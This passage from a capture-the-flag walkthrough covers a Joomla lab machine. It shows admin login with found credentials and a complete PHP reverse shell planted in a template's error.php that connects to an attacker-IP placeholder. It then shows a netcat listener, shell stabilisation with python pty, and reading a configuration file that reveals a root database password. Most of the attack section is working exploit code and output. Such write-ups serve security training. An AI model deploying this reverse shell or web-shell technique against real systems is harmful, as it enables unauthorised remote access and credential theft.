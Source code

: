 ### 5. Access Joomla Admin Panel
- Logged into `http://10.10.85.222/administrator` with `jonah:spiderman123`.
- Navigated to **Extensions > Templates > Protostar > error.php**.
- Added a PHP reverse shell from [revshells.com](https://www.revshells.com/) (example):
  ```php
  <?php
  $sock = fsockopen("[ATTACKER IP]", 4444);
  $proc = proc_open("/bin/bash", array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w")), $pipes);
  stream_set_blocking($pipes[0], 0); stream_set_blocking($pipes[1], 0); stream_set_blocking($pipes[2], 0); stream_set_blocking($sock, 0);
  while (!feof($sock) && !feof($pipes[1])) {
      $read = array($sock, $pipes[1], $pipes[2]);
      $write = NULL; $except = NULL; $num_changed = stream_select($read, $write, $except, NULL);
      if ($num_changed > 0) {
          foreach ($read as $r) {
              $data = fread($r, 4096);
              if ($r == $sock) { fwrite($pipes[0], $data); }
              else { fwrite($sock, $data); }
          }
      }
  }
  fclose($sock); proc_close($proc);
  ?>
  ```
- Started a Netcat listener:
  ```bash
  nc -lvnp 4444
  ```
- Visited `http://10.10.85.222/templates/protostar/error.php` to trigger the shell.
- **Result**: Got a reverse shell as `apache`:
  ```bash
  whoami
  apache
  ```

### 6. Stabilize the Shell
- The shell was unstable, and `python3` was unavailable:
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
- Output: `python3` not found.
- Used `python` (Python 2) instead:
  ```bash
  python -c 'import pty; pty.spawn("/bin/bash")'
  ```
- **Result**: Stabilized the shell [].

### 7. Enumerate as apache
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output: Prompted for a password, indicating `apache` has no `sudo` access without credentials [].
- Found Joomla’s configuration file:
  ```bash
  cat /var/www/html/configuration.php
  ```
- Relevant content:
  ```php
  public $user = 'root';
  public $password = 'nv5uz9r3ZEDzVjNu';
  public $db = 'joomla';
  public $dbprefix = 'fb9j5_';
  ```
